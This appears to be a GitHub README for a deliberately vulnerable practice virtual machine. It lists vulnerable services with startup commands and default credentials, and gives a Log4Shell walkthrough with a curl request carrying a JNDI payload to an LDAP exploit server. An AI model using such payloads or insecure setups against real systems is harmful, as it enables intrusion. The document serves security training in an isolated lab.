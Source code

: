 <img width="747" alt="supervuln3" src="https://user-images.githubusercontent.com/4623055/198848934-8e05569f-8549-4a58-afbb-5c1b3025f0de.png">

By @rodsoto
www.rodsoto.net 
# SuperVuln v1
#super:above, beyond 
#vulnus: wound 
# Super vulnerable machine
#exploitation, target practice, makiwara, tamashii wari, training virtual machine.  
#this virtual machine is meant to be in HOST ONLY setting and ON PREM USE. DO NOT operate in production or expose to the internet.

All Vulns  --- (DO NOT UPDATE THIS MACHINE YOU WILL BREAK IT)


1) Phpmyadmin 4.8.0 RCE/LFI --> localhost/phpmyadmin480 (remember for web servers you need apache2 and mysql running read note below to bring them up first) root:toor 
2) Rlogin
3) SAMBA Anonymous - ETERNAL RED CVE-2017-7494 (`sudo /usr/local/samba/sbin/smbd -D, sudo /usr/local/samba/sbin/nmbd -D`)
4) VsFTPD 2.3.4 RCE | `sudo /usr/local/sbin/vsftpd`  - port 21
5) SSH - port 22
6) MySQL - port 3306
7) Chargen - port 19
8) QOTD - port 17
9) Daytime - port 13
10) Telnet - port 23
11) Tomcat 8.5.2 - port 8080 `/home/research/Desktop/apache-tomcat-8.5.2 | sudo bash /bin/startup.sh`
12) Struts 2.0.14 - port 8080 
13) MongoDB - port 27017 | `sudo ./mongod --dbpath data/db/ | from /home/research/Desktop/supervuln-files/`
14) Jenkins 2.31 --> research/Desktop/supervuln/files/ --> `java -jar jenkins.war ` (admin,admin --localhost 8080)
15) Redis - cd `/home/reserach/Desktop/redis-4.0.2/ ./src/redis-server ../redis.conf`
16) Patient Scheduler -- localhost/scheduler admin admin123 (XSS,SQLi, RFI)
17) Drupal 8.5.11 -- localhost/drupal8511 root toor RCE (https://exploit-db.com/exploits/46510)
18) Log4J (1) - /home/research/Desktop/log4j-shell-poc `sudo docker build -t log4j-shell-poc . then sudo docker run --network host log4j-shell-poc`
19) Log4J (2) 
FROM /home/research/Desktop/log4shell-vulnerable-app/ `docker run --name vulnerable-app --rm -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app`
then
`java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888`
then. will execute 'touch /tmp/pwned'
`curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'` (you can play with payloads) https://github.com/christophetd/log4shell-vulnerable-app
20) echo 7
21) time 37
22) discard 9
23) QDPM 9.1 https://localhost/qdpm/index.php user:admin@localhost password:toor (remember for web servers you need apache2 and mysql running read note below to bring them up first)
24) RiteCMS http://localhost/ritecms/admin.php user:admin password:admin (this is SQLite) RFI
25) Drupal 8.5 -- localhost/drupal85 root toor - DRUPALGEDDON2
26) localhost/sqli.php -- SQL Injection 
27) Wembin 1996 -- RCE localhost:10000

Note: from /opt/lampp run -> `sudo ./manager-linux-x64.run` #to get Xammp GUI

PLUS - API Vulnerable frameworks (See readme in Desktop) 

crAPI  
PIXI. 
OWASP Juice Shop. 
Damn Vulnerable GraphQL. 

Bonus stuff to practice (Stego, WAV, Pcaps, BoF, Win7 SAM hashes) 

Download here. 
https://drive.google.com/file/d/1_AbR5R96smaWpHdlqUJNT1Q4obtwXZgp/view?usp=share_link
root - toor   
research - toor    

Import .OVA use Vmware Player or Fusion or Virtual box   
See links below for guidance   
https://docs.vmware.com/en/VMware-Workstation-Pro/16.0/com.vmware.ws.using.doc/GUID-DDCBE9C0-0EC9-4D09-8042-18436DA62F7A.html   
https://docs.oracle.com/cd/E26217_01/E26796/html/qs-import-vm.html. 


